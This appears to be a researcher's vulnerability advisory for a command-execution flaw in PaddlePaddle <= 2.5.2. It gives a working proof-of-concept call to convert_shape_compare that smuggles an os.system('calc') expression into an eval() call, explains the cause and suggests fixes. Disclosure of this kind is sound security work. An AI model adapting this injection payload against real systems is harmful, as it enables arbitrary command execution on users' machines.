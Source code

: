 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability Version: <= 2.5.2  
Vulnerability Type: Command Execution  
Vulnerability Vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability Location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause user's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which could run Python3 and Windows10

1、Download Paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug  
2023/12/15  

-------------------
2023/12/16 update: uppercase letter 

